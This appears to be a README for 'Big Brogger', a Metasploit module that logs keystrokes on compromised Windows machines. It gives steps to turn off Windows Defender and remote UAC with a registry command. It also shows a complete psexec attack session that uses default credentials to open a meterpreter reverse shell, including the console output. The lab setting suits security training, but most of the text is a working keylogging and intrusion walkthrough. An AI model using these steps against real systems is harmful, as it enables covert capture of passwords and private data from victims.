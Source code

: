 # Big Brogger
A Metasploit module that captures keystrokes on compromised Windows machines.

## Requirements
- Kali Linux virtual machine with Metasploit
- Windows 10 virtual machine

## Setup
Before attacking, you need to install and make the Windows machine vulnerable. You can find a guide to help you [here](https://medium.com/@bmatth21/how-to-setup-windows-10-vm-lab-for-hacking-608592d550f2).

You also need to disable the Windows Defender real-time protection in `Windows Security > Virus & threat protection > Real-time protection`

Finally, you need to disable the remote UAC by opening a terminal as administrator and type the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Usage
This a post module so you will have to get access to the Windows machine. You can do it by any means but we will use `windows/smb/psexec` in Metasploit for the demonstration.

First, use psexec to get a session with a valid credential:
```
msf > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set RHOST 10.0.2.15
RHOST => 10.0.2.15
msf exploit(windows/smb/psexec) > set SMBUser admin
SMBUser => admin
msf exploit(windows/smb/psexec) > set SMBPass admin
SMBPass => admin
msf exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.15:445 - Connecting to the server...
[*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445 as user 'admin'...
[*] 10.0.2.15:445 - Selecting PowerShell target
[*] 10.0.2.15:445 - Executing the payload...
[*] Sending stage (175686 bytes) to 10.0.2.15
[+] 10.0.2.15:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49870) at 2024-03-23 22:38:49 +0100

meterpreter >
```